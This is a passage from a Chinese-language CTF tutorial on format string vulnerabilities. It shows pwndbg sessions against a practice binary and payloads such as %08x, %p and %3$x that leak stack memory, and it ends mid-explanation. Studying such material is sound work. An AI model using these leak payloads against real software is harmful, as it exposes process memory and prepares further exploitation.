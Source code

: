 ![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598065504738-273cd4e8-7ab4-4eed-baef-8cc14a7385a2.png)

可以看到格式化字符串的第一个%08x解析的是0x1，第二个%08x解析的是0x22222222，第三个%08x解析的是-1，第四个%s解析的是我们输入的“%08x.%08x.%08x”字符串。所以接下来输入c让程序继续执行，我们预计的情况是会将这四处输出出来：

```plain
pwndbg> c
Continuing.
00000001.22222222.ffffffff.%08x.%08x.%08x
```

和我们想象的一样，并且程序会继续停在第二个printf函数处，依然还是看一下栈空间

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598065504699-5583871d-a144-40cf-9d46-6fa14aaa83b0.png)

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598065504721-9fa896ad-b042-4068-a211-020a02a2dbbc.png)

可以看到由于第二次printf没有给参数，所以触发了格式化字符串漏洞，可以看到格式化字符串的第一个%08x解析的是0xffffd090，第二个%08x解析的是0xf7fd0410，第三个%08x解析的是0x1。接下来输入c让程序继续执行，我们预计的效果是打印出“ffffd090， f7fd0410，00000001”

```bash
pwndbg> c
Continuing.
ffffd090.f7fd0410.00000001[Inferior 1 (process 2788) exited normally]
```

我们不只可以用%x%x%x，还可以使用%p来获取数据：

```bash
hollk@ubuntu:~/ctf-challenges/pwn/fmtstr/leakmemory$ ./leakmemory 
%p.%p.%p
00000001.22222222.ffffffff.%p.%p.%p
0xffe9c200.0xf7eee410.0x1
```

**<font style="color:#F5222D;">由于栈上的数据会因为每次分配的内存页不同，所以并不是每次得到的结果都一样。</font>**我们上面使用的方法一直都是依次输出栈中的每个参数，那么我们想要输出一个特定位置的内容，就需要更改一下输入的内容

```plain
%n$x
```

还是通过gdb打开程序，在printf函数下断点，接下来输入r运行起来。这个时候我们按照上面的公式输入%3$x

```plain
pwndbg> r
Starting program: /home/hollk/ctf-challenges/pwn/fmtstr/leakmemory/leakmemory 
%3$x
```

依旧输入c会打印出“00000001.22222222.ffffffff.%3$x”，并且程序还会停在第二个printf函数处，这个时候我们就需要看一下栈空间了

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598065504710-5739855a-8b24-48ac-a4a6-e1286437c7e9.png)

可以看到我们输入的%3$x被放置到了printf函数格式化字符串的位置，一会我们再讲为什么要输入 %3$x。接下来输入c看一看打印的结果

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598065504761-ab6f5430-aa7d-4ffe-80d7-6c5005e0e136.png)可以看到我们输出的是1，也就是上面的0x1，所以说%3$x解析的是0x1。那么就需要仔细琢磨一下我们输入的%3$x
